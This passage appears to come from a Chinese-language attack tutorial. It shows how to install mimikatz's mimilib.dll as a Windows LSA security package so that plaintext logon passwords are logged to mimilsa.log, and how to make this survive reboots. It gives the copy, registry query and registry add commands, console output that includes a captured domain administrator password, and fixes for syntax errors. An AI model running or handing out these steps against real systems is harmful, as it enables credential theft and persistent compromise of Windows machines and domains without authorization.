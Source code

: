 注销当前用户重新登录，即可获取明文密码，密码存储在日志文件C:\Windows\system32\mimilsa.log中。

```dos
type C:\Windows\system32\mimilsa.log
```

```test
C:\Users\Administrator>type C:\Windows\system32\mimilsa.log
[00000000:00063a51] DC\Administrator    admin.098
```

### 方法二

将mimikatz中的mimilib.dll 放到系统的C:\Windows\system32目录下（DLL的位数需要与windows位数相同），并将mimilib.dll添加到注册表中，使用此方法即使系统重启，也不会影响到持久化的效果。

```dos
copy mimilib.dll %systemroot%\system32
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```

```test-dos
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>copy mimilib.dll %systemroot%\
system32
已复制         1 个文件。

C:\Users\Administrator\Desktop\mimikatz_trunk\x64>reg query hklm\system\currentc
ontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0ts
pkg\0pku2u
```

注意：最后一步修改注册表需要在powershell命令行下操作，cmd下可能会报错。

```dos
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
错误: 无效语法。
键入 "REG ADD /?" 了解用法信息。
```

```
正确语法是 
λ reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "Security Packages" /t REG_MULTI_SZ /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib"
值 Security Packages 已存在，要覆盖吗(Yes/No)? yes
操作成功完成。
```

```powershell
PS C:\Users\Administrator> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "Security Packages" /t REG_MULTI_SZ /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib"
值 Security Packages 已存在，要覆盖吗(Yes/No)? y
操作成功完成。
```
